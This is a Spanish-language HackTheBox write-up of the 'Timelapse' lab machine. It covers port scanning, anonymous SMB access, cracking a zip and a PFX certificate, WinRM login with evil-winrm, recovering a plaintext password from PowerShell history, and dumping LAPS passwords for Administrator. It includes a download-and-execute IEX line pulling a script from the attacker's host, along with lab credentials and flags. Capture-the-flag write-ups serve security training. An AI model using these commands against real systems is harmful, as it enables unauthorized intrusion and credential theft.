

# WriteUp HackTheBox Timelapse

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar

## Descripción de la máquina



La resolución de la máquina presenta las siguiente fases:

* Reconocimiento
    * nmap
* Explotación
* Escalada de privilegios

## Fase de Reconocimiento

Se realiza una prueba de ping para confirmar que haya conexión con la máquina

> ping 10.10.11.152 -c1

```console
PING 10.10.11.152 (10.10.11.152) 56(84) bytes of data.
64 bytes from 10.10.11.152: icmp_seq=1 ttl=127 time=128 ms

--- 10.10.11.152 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.479/128.479/128.479/0.000 ms
```

Para identificar el sistema operativo usamos la utilidad proporcionada por S4vitar whichSystem.py[^1]

[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>

> whichSystem.py 10.10.11.152

```console
10.10.11.152 (ttl -> 127): Windows
```

Se realiza una revisión de puertos con nmap con las siguientes opciones

* -p-: Para realizar el escaneo en todos los 65000 puertos TCP
* --open: Para reportar solamente los puertos que se encuentran abiertos
* -sS: TCP SYN port scan, este argumento se utiliza para realizar un escaneo rapido de puertos
* --min-rate: El argumento le exige a nmap realizar el escaneo con una tasa de paquetes por segundo no menor a la solicitada
* -vvv: triple verbose para mostrar más información
* -n: para que no realice resolución dns en el scaneo
* -Pn: Desabilita el descubrimiento del host a traves de ping
* -oG: exporta lo reportado en un archivo en formato grepeable

> sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.10.11.152 -oG nmap/allPorts

```console
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 11:45 -04
Initiating Parallel DNS resolution of 1 host. at 11:45
Completed Parallel DNS resolution of 1 host. at 11:45, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:45
Scanning 10.10.11.152 [65535 ports]
Discovered open port 445/tcp on 10.10.11.152
Discovered open port 135/tcp on 10.10.11.152
Discovered open port 139/tcp on 10.10.11.152
Discovered open port 53/tcp on 10.10.11.152
Discovered open port 49696/tcp on 10.10.11.152
Discovered open port 50477/tcp on 10.10.11.152
Discovered open port 49674/tcp on 10.10.11.152
Discovered open port 636/tcp on 10.10.11.152
Discovered open port 593/tcp on 10.10.11.152
Discovered open port 9389/tcp on 10.10.11.152
Discovered open port 3268/tcp on 10.10.11.152
Discovered open port 389/tcp on 10.10.11.152
Discovered open port 5986/tcp on 10.10.11.152
Discovered open port 88/tcp on 10.10.11.152
Discovered open port 464/tcp on 10.10.11.152
Discovered open port 49667/tcp on 10.10.11.152
Discovered open port 49673/tcp on 10.10.11.152
Discovered open port 3269/tcp on 10.10.11.152
Completed SYN Stealth Scan at 11:46, 26.45s elapsed (65535 total ports)
Nmap scan report for 10.10.11.152
Host is up, received user-set (0.13s latency).
Scanned at 2022-08-23 11:45:56 -04 for 27s
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5986/tcp  open  wsmans           syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49673/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49696/tcp open  unknown          syn-ack ttl 127
50477/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
           Raw packets sent: 131064 (5.767MB) | Rcvd: 30 (1.320KB)
```

Por comodidad usamos la utilidad proporcionada por S4vitar extractPorts la cual nos ayuda a revisar el archivo creado por nmap 'all Ports' y nos copia los puertos en la clipboard para su posterior uso; se adjunta la utilidad a continuación

```console
extractPorts () {
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
        echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
        echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
        echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
        /bin/bat extractPorts.tmp
        rm extractPorts.tmp

```
> extracPorts nmap/allPorts

```console
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.11.152
   5   │     [*] Open ports: 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49696,50477
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```

Se realiza un nuevo escaneo con una serie de scripts básicos que nmap nos ofrece para ver las técnologias que corren por detrás

> nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49696,50477  10.10.11.152 -oN nmap/targeted 

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 11:48 -04
Nmap scan report for 10.10.11.152
Host is up (0.13s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-08-23 23:48:31Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-08-23T23:50:02+00:00; +7h59m59s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
50477/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-23T23:49:23
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.96 seconds
```

con crackmapexec observamos que nos enfrentamos a un posible DomainController y vemos también que el dominio es timelapse.htb

> crackmapexec smb 10.10.11.152

```console
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```
Probamos conectarnos con smbclient con un null session y vemos que conecta sin problemas

## Fase de Explotación

> smbclient -L 10.10.11.152 -N

```console
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Y con un smbmap vemos que privilegios tenemos en las carpetas listada

> smbmap -H 10.10.11.152 -u 'null'

```console
[+] Guest session   	IP: 10.10.11.152:445	Name: timelapse.htb                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Shares                                            	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

Probamos conectarnos con smbclient con un Null Session al directorio Shares y vemos que tenemos acceso

Dentro de Shares/Dev observamos que tenemos un archivo llamado winrm_backup.zip y nos los traemos con `get`

> smbclient //10.10.11.152/Shares -N

```console
Try "help" to get a list of possible commands.
smb: \>
```

> smb: \>cd Dev
>
> smb: \Dev\> dir

```console
.                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

		6367231 blocks of size 4096. 1622803 blocks available
```

> get winrm_backup.zip

```console
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (4,8 KiloBytes/sec) (average 4,8 KiloBytes/sec)
```

Revisamos el contenido del archivo descargado:

> 7z l winrm_backup.zip

```console
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=es_BO.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Xeon(R) Platinum 8176 CPU @ 2.10GHz (50654),ASM,AES-NI)

Scanning the drive for archives:
1 file, 2611 bytes (3 KiB)

Listing archive: winrm_backup.zip

--
Path = winrm_backup.zip
Type = zip
Physical Size = 2611

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-25 10:21:20 .....         2555         2405  legacyy_dev_auth.pfx
------------------- ----- ------------ ------------  ------------------------
2021-10-25 10:21:20               2555         2405  1 files
```

Al intentar unzipearlo vemos que se encuentra protegido por contraseña

> unzip winrm_backup.zip

```console
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: %                                                                                                                                          
```

Por tanto probamos crackear la contraseña con fcrackzip y nos encuentra la contraseña *supremelegacy*

> fcrackzip -v -u -D -p rockyou.txt winrm_backup.zip;

```console
found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udehss                                  

PASSWORD FOUND!!!!: pw == supremelegacy
```

Una vez descomprimido el archivo, vemos de extraer la llave privada del archivo pfx, sin embargo vemos que tiene contraseña

> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

```console
Enter Import Password:
Mac verify error: invalid password?
```

Para crackear el archivo .pfx utilizamos la siguiente herramienta <https://github.com/crackpkcs12/crackpkcs12> y encontramos el password thuglegacy

> crackpkcs12 -d rockyou.txt legacyy_dev_auth.pfx

```console
Dictionary attack - Starting 8 threads

*********************************************************
Dictionary attack - Thread 2 - Password found: thuglegacy
*********************************************************
```

con el nuevo password encontrado descomprimimos la clave privada y el cerficado del archivo .pfx

> openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem
>
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

Por tanto con el certificado firmado y la clave privada podemos ingresar con `evil-winrm` a la maquina víctima

> evil-winrm -i 10.10.11.152 -c certificate.pem -k priv-key.pem -S

```console
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

y ya podríamos verl a flag de usuario:

> *Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
>
> *Evil-WinRM* PS C:\Users\legacyy> cd Desktop
>
> *Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
```console
8681855e4ab3fe08f1d3fd0a411a5281
```

## Escalación de Privilegios

stamos los usuarios con `net users`

> *Evil-WinRM* PS C:\Users\legacyy\Desktop> net users

```console
User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```

Y revisando los usuarios observamos que `svc_deploy` pertenece al grupo *Remote Management Users* y También es parte del Grupo *LAPS_Readers* el cual es un gestori de contraseñas

```console
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Revisando el histórico del usuario legacyy vemos que se tiene una constraseña *E3R$Q62^12p7PLlC%KWaxuaV* en texto plano del usuario svc_deploy

> *Evil-WinRM* PS C:\Users\legacyy> type APPDATA\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```console
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Probamos evil-winrm para conectarse con el svc_deploy y vemos que ingresamos

> evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

```console
WaxuaV' -S - Parrot Terminal
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

Para obtener las contraseñas de LAPS utilizamos la siguiente herramienta <https://github.com/kfosaaen/Get-LAPSPasswords>

Nos descargamos la herramienta

> git clone https://github.com/kfosaaen/Get-LAPSPasswords
>
> cd Get-LAPSPasswords
>
> python3 -m http.server 80

```console
10.10.11.152 - - [23/Aug/2022 14:54:30] "GET /Get-LAPSPasswords.ps1 HTTP/1.1" 200 -
```

> C:\Users\legacyy> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Get-LAPSPasswords.ps1')

Probando el GET-LAPSPassword para ver que contraseñas puede obtener, y obtenemos .IkjJZC#4C+E40La7$Dg/bnj

> *Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords

```console
Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : .IkjJZC#4C+E40La7$Dg/bnj
Expiration : 8/28/2022 4:41:24 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA
```

Verificamos con crackmapexec que la contaseña sea del usuario Administrador

> crackmapexec smb 10.10.11.152 -u 'Administrator' -p '.IkjJZC#4C+E40La7$Dg/bnj'

```console
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\Administrator:.IkjJZC#4C+E40La7$Dg/bnj (Pwn3d!)
```

Por tanto nos conectamos con evil-winrm como Administrator y ah'i podemos obtener la flag de root

> evil-winrm -i 10.10.11.152 -u 'Administrator' -p '.IkjJZC#4C+E40La7$Dg/bnj' -S

```console
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Buscando la root vemos que no se encuentra en el escritorio del usuario Administrador si no en el escritorio del usiario TRX

> *Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users
>
> *Evil-WinRM* PS C:\Users> cd TRX
>
> *Evil-WinRM* PS C:\Users\TRX> cd Desktop
>
> *Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt

```console
3db5a95ace32b9aa0de829ee1169aea7
```

## Estructura del directorio

```
├── content
│   ├── certificate.pem
│   ├── hash
│   ├── legacyy_dev_auth.pfx
│   ├── passwords
│   ├── priv-key.pem
│   ├── rockyou.txt
│   └── winrm_backup.zip
├── exploits
├── Images
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```
